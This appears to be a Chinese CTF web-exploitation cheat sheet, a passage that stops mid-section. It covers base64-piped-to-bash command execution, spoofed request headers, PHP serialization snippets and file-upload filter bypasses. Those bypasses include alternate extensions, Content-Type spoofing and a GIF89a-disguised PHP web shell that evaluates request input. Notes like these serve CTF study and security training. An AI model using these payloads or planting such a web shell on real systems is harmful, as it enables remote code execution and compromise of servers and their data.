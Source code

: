 echo bHM= |base64 -d|bash echo bHM= |base64 -d|sh

### burpsuite-请求头

Referer: https://www.Sycsecret.com User-Agent: Syclover X-Forwarded-For: 127.0.0.1

### 序列化与反序列化

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$a = new Name();
echo urlencode(serialize($a)); 
?>
```

### 上传常用木马

1. 序列化木马:

```php
<?php
class A{
	var $a = "<?php phpinfo()?>";
}
$aa = new A();
echo serialize($aa);
?>
```

1. Content-Type: image/jpeg
2. php,php3,php4,php5,phtml.pht
3. 扩展名绕过 Asp:asa cer cdx Aspx:ashx asmx ascx Php:php3 phptml Jsp:jspx jspf
4. ```
   <script language=php>system("ls")</script>
   ```
5. ```
   GIF89a?
   <script language="php">eval($_REQUEST[shell])</script>
   ```

**resources**

[文件上传限制绕过原理以及方法总结](https://www.cnblogs.com/askta0/p/9190556.html#/c/subject/p/9190556.html)

#### .htaccess

.htaccess用于针对apache的

#### .user.ini

考点: .user.ini后门 条件:
